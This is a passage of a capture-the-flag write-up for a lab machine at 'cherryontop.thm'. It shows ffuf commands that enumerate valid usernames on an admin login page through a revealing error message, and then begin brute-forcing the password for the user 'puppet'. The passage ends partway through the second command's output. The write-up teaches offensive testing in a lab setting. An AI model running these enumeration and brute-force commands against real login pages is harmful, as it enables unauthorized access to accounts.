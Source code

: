 We found `nano` subdomain, let's add it to `/etc/hosts` and navigate to it.

![nano](3.png)

Nothing interesting in this page but we find an `Admin` tab, let's check it.

![admin](4.png)

It's an admin poral login page, I tried some default credentials but no success.

But we get the message `This user doesn't exist`, this allows us to enumerate for valid usernames.

```terminal
$ ffuf -c -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt -u http://nano.cherryontop.thm/login.php -X POST -d "username=FUZZ&password=password&submit=" -H "Content-Type:
 application/x-www-form-urlencoded" -fr "This user doesn't"                                     

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://nano.cherryontop.thm/login.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/top-usernames-shortlist.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=password&submit=
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: This user doesn't
________________________________________________

puppet                  [Status: 200, Size: 2370, Words: 733, Lines: 61, Duration: 119ms]
```

We were able to find the username `puppet`, Let's see if we get another message now.

![pass](5.png)

We got `Bad password`, let's brute force passwords now.

```terminal
$ ffuf -c -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -u http://nano.cherryontop.thm/login.php -X POST -d "username=puppet&password=FUZZ&submit=" -H "Con
tent-Type: application/x-www-form-urlencoded" -fr "Bad"                                                                                                                                       
                                                                                                                                                                                              
        /'___\  /'___\           /'___\                                                                                                                                                       
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                                       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                                                      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                                      
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                                                       
          \/_/    \/_/   \/___/    \/_/                                                                                                                                                       
```